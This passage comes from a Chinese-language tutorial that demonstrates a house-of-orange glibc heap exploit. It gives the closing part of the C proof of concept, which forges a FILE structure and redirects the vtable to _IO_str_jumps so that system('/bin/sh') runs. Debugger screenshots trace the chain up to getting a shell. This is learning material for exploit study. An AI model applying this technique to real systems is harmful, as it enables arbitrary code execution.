    ```c
       // top[0] &= ~8;
       top[0] = 0;
       top[4] = 0; // write_base
       top[5] = ((size_t)&binsh_in_libc-100)/2 + 1; // write_ptr
       top[7] = 0; // buf_base
       top[8] = top[5] - 1; // buf_end
       // house_of_orange conditions
       top[1] = 0x61;
   
       //top[20] = (size_t) &top[18];
       top[21] = 2;
       top[22] = 3;
       top[24] = -1;
       top[27] = (size_t)stdin - 0x1140; // _IO_str_jumps地址
       top[28] = (size_t) &winner;
   
       /* Finally, trigger the whole chain by calling malloc */
       malloc(10);
       return 0;
   }
   int winner(char *ptr)
   { 
       system(ptr);
       return 0;
   }
   ```

   伪造的file如下：
   
   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211639451.png" alt="image-20240821163936329" style="zoom:50%;" />
   
   查看相应的结构体如下：
   
   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211701372.png" alt="image-20240821170117124" style="zoom:50%;" />
   
   最后申请malloc，**mian_arena_88+0x68处的_chain**成功衔接到fake_file:
   
   ![image-20240821164638732](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211646929.png)
   
   最后，进入到**_IO_flush_all_lockp**函数来刷新所有文件，后面成功调用到  **_ IO_str_overflow函数**（如果没有用_IO_str_jumps地址来覆盖vtable的话，该位置应该调用的是 _IO_file_overflow函数），传入的参数是fake_chunk的地址：
   
   ![image-20240821175402369](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211754599.png)
   
   进入到_IO_str_overflow函数后，成功绕过检查，调用到winner，传入的参数是**/bin/sh字符串的地址**：
   
   ![image-20240821170338895](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211703028.png)
   
   ![image-20240821175626428](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211756594.png)
   
   最后成功get shell：
   
   ![image-20240821173941797](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211739880.png)
   